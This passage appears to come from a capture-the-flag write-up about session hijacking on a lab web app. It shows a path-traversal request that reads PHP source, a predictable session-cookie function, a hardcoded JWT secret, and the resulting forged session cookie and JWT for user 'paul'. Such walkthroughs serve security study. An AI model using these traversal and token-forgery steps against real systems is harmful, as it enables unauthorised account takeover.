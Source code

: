 
So we need to hijack Paul session.
And checking under the Issues section on the website reveals that SessionId does not expire and also logout button is broken it means we can take its advantage

Let's begin with reading ../portal/cookie.php

```php
<?php
/** * @param string $username  Username requesting session cookie *  * @return string $session_cookie Returns the generated cookie *  * @devteam * Please DO NOT use default PHPSESSID; our security team says they are predictable. * CHANGE SECOND PART OF MD5 KEY EVERY WEEK * */
function makesession($username)
{
    $max            = strlen($username) - 1;
    $seed           = rand(0, $max);
    $key            = "s4lTy_stR1nG_" . $username[$seed] . "(!528./9890";
    $session_cookie = $username . md5($key);
    return $session_cookie;
}
```

And also we need jwt secret key to sign our jwt token.
Reading the authController.php
send request with following parameter
`book=../portal/authController.php&method=1`

Reading this file I found how jwt is created

```php
 session_id(makesession($username));
            session_start();
            $secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e';
            $data = array();
            $payload = array(
                "data" => array(
                    "username" => $username
                )
            );
            $jwt = JWT::encode($payload, $secret_key, 'HS256');
```

Now take your jwt token from the burp request and decode it in jwt.io
Change the username to paul and enter the secret key

![jwt decode](/assets/images/breadcrumbs-images/jwt_decode.png)

So on `$seed = 3` of cookie.php our payload worked

login with your id and then inject the cookie and jwt then refresh the page

```
session: paul47200b180ccd6835d25d034eeb6e6390
jwt: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.7pc5S1P76YsrWhi_gu23bzYLYWxqORkr0WtEz_IUtCU

```
